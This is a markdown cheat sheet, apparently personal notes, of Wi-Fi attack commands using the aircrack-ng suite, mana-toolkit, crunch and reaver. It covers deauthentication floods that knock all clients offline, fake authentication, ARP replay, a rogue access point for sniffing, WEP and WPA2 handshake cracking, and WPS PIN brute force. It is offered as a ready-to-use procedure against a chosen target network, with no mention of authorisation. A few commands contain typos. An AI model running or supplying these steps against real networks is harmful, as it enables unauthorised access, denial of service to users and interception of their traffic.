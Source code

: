 # Table of Contents
- [attacks](#attacks)
- [airodump commands](#airodump-commands)

<br>
<br>

# attacks
normally most of the attacks require to have an interface in monitor mode.  
to do this we use the following command:
```
iwconfig wlan0 mode monitor
```
1) arp request attack
```
aireplay-ng --arpreplay -b <mac of network> -h <adapter wireless mac> <adapter wireless name>
```
2) deauth attack
```
aireplay-ng --deauth 1000 -a <mac of network> -c <mac of client> <interface>
```
3) fake auth attack
```
aireplay-ng --fakeauth 0 -a <mac of network> -h <mac of my wireless adapter> <name of wireless adapter>
```
4) fake access point  
  a) we first need to download mana-toolkit in order to fake an access point.  
  b) modify settings on /etc/mana-toolkit/hostapd-mana.conf  
  c) modify the script also on /usr/share/mana-toolkit/run-mana/start-nat-simple.sh  
  d) then run the script  
  ```
  bash /usr/share/mana-toolkit/run-mana/start-nat-simple.sh
  ```
  &nbsp;&nbsp;&nbsp;&nbsp;e) if it failed run this command again  (maybe use the --arp-spoofing argument)  
  &nbsp;&nbsp;&nbsp;&nbsp;f) now you can sniff packets with wireshark :)

  <br>

5) crack wep password.    
  a) first sniff data
  ```
airodump-ng --bssid <mac of wifi> --channel <channel of wifi> --write <path to store wlan0mon>
```
&nbsp;&nbsp;&nbsp;&nbsp;b) now crack the cap file
``` 
aircrack-ng <cap file>
```
&nbsp;&nbsp;&nbsp;&nbsp;c) change the key to ascii and connect  

  <br>
  &nbsp;&nbsp;&nbsp;&nbsp;if the network is low on traffic we will do like this: 

&nbsp;&nbsp;&nbsp;&nbsp;a) we first scan the network for packets  
  ```
airodump-ng --bssid <mac of network> --chanel <channel of network> --write <output path> <wireless adapter name>
```
&nbsp;&nbsp;&nbsp;&nbsp;b) then we will send a fake auth attack  
```
aireplay-ng --fakeauth 0 -a <mac of network> -h <adapter wireless mac> <adapter wireless name>
```
&nbsp;&nbsp;&nbsp;&nbsp;this will make us associate with the network

&nbsp;&nbsp;&nbsp;&nbsp;c) then we will launch a arp replay attack  
```
aireplay-ng --arpreplay -b <mac of network> -h <adapter wireless mac> <adapter wireless name>
```
&nbsp;&nbsp;&nbsp;&nbsp;d) then we give it the cap file  
```
aircrack-ng <path to cap file>
```
<br>

6) crack wpa2 password  
a) see which wlan adapters you have  
```
airmon-ng 
```
&nbsp;&nbsp;&nbsp;&nbsp;b) kill active connections  
```
airmon-ng check kill
```
&nbsp;&nbsp;&nbsp;&nbsp;c) start monitor  
```
airmon-ng start wlan0
```
&nbsp;&nbsp;&nbsp;&nbsp;d) find the wifi you want to attack  
```
airodump-ng wlan0mon
```
&nbsp;&nbsp;&nbsp;&nbsp;e) sniff it for the password  
```
airodump-ng --bssid <mac address of wifi> -c <channel of wifi> --write <name of file to save to> wlan0mon
```
&nbsp;&nbsp;&nbsp;&nbsp;we do this until we get a wpa handshake flag on the scan.  
&nbsp;&nbsp;&nbsp;&nbsp;if we got the mac adress and channel of someone on this wifi
using airodump-ng, 
&nbsp;&nbsp;&nbsp;&nbsp;we can run this command to make him deauthenticate.  
```
aireplay-ng -0 <number of packets (usually 4)> -a <bssid of device>
-c <station> wlan0mon
```
&nbsp;&nbsp;&nbsp;&nbsp;or if i want i can kick all the devices from the internet by doing this:  
```
aireplay-ng -0 <number of packets (usually 4)> -a <bssid of gateway> wlan0mon
```
&nbsp;&nbsp;&nbsp;&nbsp;now we get the handshake.  

&nbsp;&nbsp;&nbsp;&nbsp;f) then create wordlist for the hash using crunch  
```
crunch <min length> <max length> -t <template> -o output.txt
```
&nbsp;&nbsp;&nbsp;&nbsp;g) crack  
```
aircrack-ng <file saved + .cap> -w output.txt
```
<br>

7) crack wps enabled wifi  
a) first run the scan for wifi with wps enabled.
```
wash -i <interface name>
```
&nbsp;&nbsp;&nbsp;&nbsp;b) then find the pin of the wps
```
reaver --bssid <mac of network> --channel <channel number> --interface <name of etwork interface> -vvv --no-associate
```
&nbsp;&nbsp;&nbsp;&nbsp;if you got error download an older version of reaver.

<br>
<br>

# airodump commands
1) normal use:
```
airodump-ng <inteface-in-monitor-mode>
```
2) for scanning 5ghz wifi:
```
airodump --band a <interface-in-monitor-mode>
```
3) for scanning both 5ghz and 2.4ghz wifi:
```
airodump-ng --band abg <interface-in-nonitor-mode>
```
